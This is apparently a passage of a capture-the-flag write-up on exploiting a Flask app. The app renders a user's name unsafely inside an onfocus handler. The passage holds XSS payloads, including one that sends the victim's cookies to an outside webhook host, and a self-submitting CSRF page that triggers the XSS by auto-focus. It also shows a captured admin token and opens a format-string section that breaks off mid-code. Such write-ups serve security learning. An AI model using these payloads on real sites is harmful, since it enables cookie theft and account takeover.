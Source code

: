 ```jsx
</style>
<div class="image-container">
    <img src="{{ url_for('static', filename='images/cat.jpg') }}" alt="cat">
    <a class="text" id="behindthename-redirect" href='https://www.behindthename.com/names/search.php?terms={{name}}' onfocus='document.location="https://www.behindthename.com/names/search.php?terms={{name|safe}}"'>Hello {{name}} !</a>
</div>
```

**PoC**

```jsx
\";alert(1);//

\";window.location=`//helpful-autumn-15.webhook.cool/?`+document.cookie;//
```

### **Exploit: Auto-focus + CSRF**

The XSS is bound to the `onfocus` event. So, if we want to trigger the XSS automatically, we need to use the `#` anchor in the URL to achieve the auto-focus functionality because the `a` tag has a very nice `id` attribute.

```jsx
<a class="text" id="behindthename-redirect" ...>
```

CSRF Exploit Page:

```jsx
<html>
  <body>
    <form action="http://localhost/your-name#behindthename-redirect" method="POST" id="csrf-form">
      <input type="hidden" name="name" value='\";alert(1);//' />
    </form>

    <script>
      document.getElementById('csrf-form').submit();
    </script>
  </body>
</html>
```

Got the admin token:

```jsx
X-Admin-Token=214d57ee72f9fd4a24f9effaaa5f7a47
```

### **Python Format String Vulnerability**

```python
from flask import Flask, render_template, request, Response, redirect, url_for

def run_cmd(): # I will do that later
    pass
    
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403
    
    prompt = request.args.get('prompt')
    return render_templ
```
